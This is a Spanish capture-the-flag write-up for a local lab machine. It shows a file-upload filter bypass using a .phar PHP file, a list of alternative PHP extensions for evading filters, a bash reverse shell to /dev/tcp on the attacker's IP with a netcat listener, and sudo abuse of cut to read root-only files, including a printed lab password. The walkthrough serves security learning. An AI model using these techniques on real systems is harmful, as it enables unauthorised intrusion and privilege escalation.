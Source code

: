 ![](Imágenes/Pasted%20image%2020240813182943.png)

En un principio esta es la petición. Voy a hacer que la máquina se piense que es un zip. Para ello, veo que hay distintas terminaciones de los archivos php: **PHP**: _.php_, _.php2_, _.php3_, ._php4_, ._php5_, ._php6_, ._php7_, .phps, ._phps_, ._pht_, ._phtm, .phtml_, ._pgif_, _.shtml, .htaccess, .phar, .inc, .hphp, .ctp, .module

Al parecer, phar es un conjunto de phps comprimidos, por lo que cuela y se sube. Ahora, podré ver ese archivo en http://172.17.0.2/uploads/script.phar y escribir los comandos que quiera:

![](Imágenes/Pasted%20image%2020240813184507.png)

![](Imágenes/Pasted%20image%2020240813184615.png)


Creo una shell que captaré desde mi máquina: 

```
# En mi máquina (192.168.1.63):

nc -lnvp 443

# En la shell de php: 

bash -c "bash -i >&/dev/tcp/192.168.1.63/443 0>&1"

```

Y ya estoy dentro:

![](Imágenes/Pasted%20image%2020240813185112.png)

Tanto con cut como grep puedo leer archivos como si fuera superusuario. 

![](Imágenes/Pasted%20image%2020240813185352.png)

Voy mirando directorios, y encuentro que en /opt/ hay un archivo: 

![](Imágenes/Pasted%20image%2020240813185538.png)

Uso https://gtfobins.github.io/gtfobins/cut/#sudo para leer el contenido: 

```
LFILE=/opt/nota.txt
sudo cut -d "" -f1 "$LFILE"

# Protege la clave de root, se encuentra en su directorio /root/clave.txt, menos mal que nadie tiene permisos para acceder a ella.

LFILE=/root/clave.txt
sudo cut -d "" -f1 "$LFILE"

# dockerlabsmolamogollon123

```

